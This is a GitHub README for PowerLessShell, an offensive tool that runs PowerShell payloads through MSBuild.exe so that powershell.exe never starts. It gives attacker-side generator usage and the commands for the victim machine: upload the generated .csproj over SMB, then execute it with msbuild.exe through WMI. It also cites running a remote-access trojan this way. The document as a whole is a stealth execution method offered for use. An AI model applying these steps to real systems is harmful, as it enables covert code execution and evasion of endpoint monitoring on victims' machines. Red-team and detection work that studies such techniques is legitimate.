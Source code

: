 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawing powershell.exe

# Usage

Attacker side
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"



(Path to the PowerShell script)>>> ../test.txt

(Path for the output MsBuild file)>>> ../payload.csproj

Upload payload.csproj on the target system through SMB
Run the following command on the target system using WMI:
cmd /c C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.csproj
```

Victim side (Push the file using SMB. Execute the following command using WMI)
```
cmd.exe /c C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# TODO 
Use impacket library to automate the file push and execution of the msbuild command.

# Credit
Mr.Un1k0d3r RingZer0 Team 2017

